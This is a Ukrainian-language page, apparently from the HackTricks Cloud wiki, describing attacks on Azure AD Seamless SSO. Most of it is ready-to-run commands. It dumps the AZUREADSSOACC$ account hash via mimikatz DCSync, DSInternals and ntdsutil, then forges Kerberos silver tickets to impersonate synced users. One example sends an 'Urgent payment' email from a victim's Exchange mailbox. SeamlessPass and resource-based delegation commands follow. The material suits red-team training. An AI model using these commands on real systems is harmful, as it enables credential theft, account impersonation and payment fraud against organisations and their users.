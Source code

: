 # Az - Seamless SSO

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basic Information

[From the docs:](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso) Azure Active Directory Seamless Single Sign-On (Azure AD Seamless SSO) автоматично **авторизує користувачів, коли вони на своїх корпоративних пристроях**, підключених до вашої корпоративної мережі. Коли ця функція увімкнена, **користувачам не потрібно вводити свої паролі для входу в Azure AD**, і зазвичай навіть вводити свої імена користувачів. Ця функція забезпечує вашим користувачам легкий доступ до ваших хмарних додатків без необхідності в додаткових компонентів на місці.

<figure><img src="../../../../.gitbook/assets/image (275).png" alt=""><figcaption><p><a href="https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso-how-it-works">https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso-how-it-works</a></p></figcaption></figure>

В основному Azure AD Seamless SSO **авторизує користувачів**, коли вони **на ПК, приєднаному до локального домену**.

Цю функцію підтримують як [**PHS (Password Hash Sync)**](phs-password-hash-sync.md), так і [**PTA (Pass-through Authentication)**](pta-pass-through-authentication.md).

Desktop SSO використовує **Kerberos** для аутентифікації. Коли налаштовано, Azure AD Connect створює **обліковий запис комп'ютера під назвою AZUREADSSOACC`$`** в локальному AD. Пароль облікового запису `AZUREADSSOACC$` **надсилається у відкритому вигляді до Azure AD** під час налаштування.

**Квитки Kerberos** **шифруються** за допомогою **NTHash (MD4)** пароля, а Azure AD використовує надісланий пароль для розшифровки квитків.

**Azure AD** надає **кінцеву точку** (https://autologon.microsoftazuread-sso.com), яка приймає **квитки** Kerberos. Браузер комп'ютера, приєднаного до домену, пересилає квитки на цю кінцеву точку для SSO.

### On-prem -> cloud

**Пароль** користувача **`AZUREADSSOACC$` ніколи не змінюється**. Тому адміністратор домену може скомпрометувати **хеш цього облікового запису** і потім використовувати його для **створення срібних квитків** для підключення до Azure з **будь-яким синхронізованим локальним користувачем**:
```powershell
# Dump hash using mimikatz
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\azureadssoacc$ /domain:domain.local /dc:dc.domain.local"'
mimikatz.exe "lsadump::dcsync /user:AZUREADSSOACC$" exit

# Dump hash using https://github.com/MichaelGrafnetter/DSInternals
Get-ADReplAccount -SamAccountName 'AZUREADSSOACC$' -Domain contoso -Server lon-dc1.contoso.local

# Dump using ntdsutil and DSInternals
## Dump NTDS.dit
ntdsutil "ac i ntds" "ifm” "create full C:\temp" q q
## Extract password
Install-Module DSInternals
Import-Module DSInternals
$key = Get-BootKey -SystemHivePath 'C:\temp\registry\SYSTEM'
(Get-ADDBAccount -SamAccountName 'AZUREADSSOACC$' -DBPath 'C:\temp\Active Directory\ntds.dit' -BootKey $key).NTHash | Format-Hexos
```
З хешем ви тепер можете **генерувати срібні квитки**:
```powershell
# Get users and SIDs
Get-AzureADUser | Select UserPrincipalName,OnPremisesSecurityIdentifier

# Create a silver ticket to connect to Azure with mimikatz
Invoke-Mimikatz -Command '"kerberos::golden /user:onpremadmin /sid:S-1-5-21-123456789-1234567890-123456789 /id:1105 /domain:domain.local /rc4:<azureadssoacc hash> /target:aadg.windows.net.nsatc.net /service:HTTP /ptt"'
mimikatz.exe "kerberos::golden /user:elrond /sid:S-1-5-21-2121516926-2695913149-3163778339 /id:1234 /domain:contoso.local /rc4:12349e088b2c13d93833d0ce947676dd /target:aadg.windows.net.nsatc.net /service:HTTP /ptt" exit

# Create silver ticket with AADInternal to access Exchange Online
$kerberos=New-AADIntKerberosTicket -SidString "S-1-5-21-854168551-3279074086-2022502410-1104" -Hash "097AB3CBED7B9DD6FE6C992024BC38F4"
$at=Get-AADIntAccessTokenForEXO -KerberosTicket $kerberos -Domain company.com
## Send email
Send-AADIntOutlookMessage -AccessToken $at -Recipient "someone@company.com" -Subject "Urgent payment" -Message "<h1>Urgent!</h1><br>The following bill should be paid asap."
```
Щоб використати срібний квиток, слід виконати наступні кроки:

1. **Запустіть браузер:** Потрібно запустити Mozilla Firefox.
2. **Налаштуйте браузер:**
* Перейдіть до **`about:config`**.
* Встановіть параметр для [network.negotiate-auth.trusted-uris](https://github.com/mozilla/policy-templates/blob/master/README.md#authentication) на вказані [значення](https://docs.microsoft.com/en-us/azure/active-directory/connect/active-directory-aadconnect-sso#ensuring-clients-sign-in-automatically):
* `https://aadg.windows.net.nsatc.net`
* `https://autologon.microsoftazuread-sso.com`
3. **Доступ до веб-додатку:**
* Відвідайте веб-додаток, інтегрований з доменом AAD організації. Загальним прикладом є [Office 365](https://portal.office.com/).
4. **Процес аутентифікації:**
* На екрані входу введіть ім'я користувача, залишивши поле пароля порожнім.
* Щоб продовжити, натисніть TAB або ENTER.

{% hint style="success" %}
Це не обходить MFA, якщо вона увімкнена
{% endhint %}

#### Варіант 2 без dcsync - SeamlessPass

Цей напад також можна виконати **без атаки dcsync**, щоб бути більш непомітним, як [пояснено в цьому блозі](https://malcrove.com/seamlesspass-leveraging-kerberos-tickets-to-access-the-cloud/). Для цього вам потрібно лише одне з наступного:

* **TGT скомпрометованого користувача:** Навіть якщо у вас його немає, але користувач був скомпрометований, ви можете отримати один, використовуючи трюк з делегуванням фальшивого TGT, реалізований у багатьох інструментах, таких як [Kekeo](https://x.com/gentilkiwi/status/998219775485661184) та [Rubeus](https://posts.specterops.io/rubeus-now-with-more-kekeo-6f57d91079b9).
* **Золотий квиток**: Якщо у вас є ключ KRBTGT, ви можете створити TGT, який вам потрібен для атакованого користувача.
* **NTLM хеш або AES ключ скомпрометованого користувача:** SeamlessPass зв'яжеться з контролером домену з цією інформацією, щоб згенерувати TGT.
* **NTLM хеш або AES ключ облікового запису AZUREADSSOACC$:** З цією інформацією та ідентифікатором безпеки (SID) користувача, якого ви атакуєте, можливо створити сервісний квиток і аутентифікуватися в хмарі (як виконано в попередньому методі).

Нарешті, з TGT можливо використовувати інструмент [**SeamlessPass**](https://github.com/Malcrove/SeamlessPass) з:

{% code overflow="wrap" %}
```
seamlesspass -tenant corp.com -domain corp.local -dc dc.corp.local -tgt <base64_TGT>
```
{% endcode %}

Додаткову інформацію про налаштування Firefox для роботи з безшовним SSO можна [**знайти в цьому блозі**](https://malcrove.com/seamlesspass-leveraging-kerberos-tickets-to-access-the-cloud/).

#### ~~Створення квитків Kerberos для користувачів тільки в хмарі~~ <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

Якщо адміністратори Active Directory мають доступ до Azure AD Connect, вони можуть **встановити SID для будь-якого користувача в хмарі**. Таким чином, квитки Kerberos **можна створити також для користувачів тільки в хмарі**. Єдина вимога полягає в тому, що SID є правильним [SID](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc778824\(v=ws.10\)).

{% hint style="danger" %}
Зміна SID для адміністраторів тільки в хмарі тепер **блокована Microsoft**.\
Для отримання інформації перевірте [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
{% endhint %}

### On-prem -> Хмара через обмежену делегацію на основі ресурсів <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

Будь-хто, хто може керувати обліковими записами комп'ютерів (`AZUREADSSOACC$`) у контейнері або OU, в якому знаходиться цей обліковий запис, може **налаштувати обмежену делегацію на основі ресурсів для облікового запису та отримати до нього доступ**.
```python
python rbdel.py -u <workgroup>\\<user> -p <pass> <ip> azureadssosvc$
```
## References

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso)
* [https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/](https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
* [TR19: Я у вашому хмарі, читаю електронні листи всіх - злом Azure AD через Active Directory](https://www.youtube.com/watch?v=JEIR5oGCwdg)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
